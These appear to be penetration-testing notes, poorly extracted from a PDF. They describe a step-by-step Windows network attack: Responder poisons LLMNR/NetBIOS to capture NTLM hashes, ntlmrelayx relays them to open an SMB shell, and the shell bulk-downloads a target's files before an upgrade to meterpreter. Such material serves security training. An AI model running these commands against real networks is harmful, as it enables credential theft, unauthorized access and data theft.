







Responder and Ntlmrelayx --> SMB shell
1. Disable SMB and HTTP on the
ResponderWe need to disable SMB and HTTP in Responder.conf because MultiRelay need to use ports
80/tcp and 445/tcp
To check their status:
-r → will make Responder reply to NetBIOS workstation/redirect requests
-v → verbose to show more
output
 To edit their value
to Off:
nano /etc/responder/Responder.conf
2. Start the
Responder ◇ If we want use
UNC
paths
root@kali:~# responder -I eth0
use also the option --lm if we want conduct an NTLM downgrade attack
◇ If we want to wait for
misspelled
share queries (LLMNR & NetBIOS NS Spoofing/Poisoning)
root@kali:~# responder -I eth0 -rdwv
 use also the option --lm
if we want conduct an NTLM downgrade attack
3. Start ntlmrelay.pyntlmrelay is the
updated version of
smbrelayIf the hash
obtained in the chapters
◇
redirect
to Attacker's SMB share using UNC path to steal NTLM credential ◇
LLMNR
& NetBIOS NS Spoofing/Poisoning for capture NTLM hashes (misspelled share queries)are to hard to
crack, we can relaying them by using ntlrelayx.py
Now we can launch ntlrelayx.py
◇ If we want
capture the hashes
kali@kali:~$ cd /usr/share/doc/python3-impacket/examples/
kali@kali:~$ python3 ntlmrelayx.py -t [IPtarget] -smb2support
 we can use the hashes with
psexec
◇
If we want start an interactive shell on
127.0.0.1(localhost)
kali@kali:~$ cd /usr/share/doc/python3-impacket/examples/
kali@kali:~$ python3 ntlmrelayx.py -t [IPtarget] -smb2support -i
 connect to the
SMB shell with netcat
kali@kali:~$ nc 127.0.0.1 11000
OPTIONS
ntlmrelayx.py:
◇ -t <IPtarget>, --target <IPtarget> → target to relay the credentials to, can be
an IP, hostname or URL like domain\username@host:port (domain\username and port are optional).
◇ -smb2support
→ SMB2 Support (experimental!)
◇ -i, --interactive → interactive console will be launched on
127.0.0.1:[port]
4. SMB Shell
Download all the files listed in the actual folder, preserving the structure of the directories
inside
smb> cd <folder>
smb> ls
smb> recurse ON
smb> prompt OFF
smb> mget *
We can use a tool like tree to see the structures of the folders

5. Upgrade the SMB shell to meterpreter
bibliography:https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/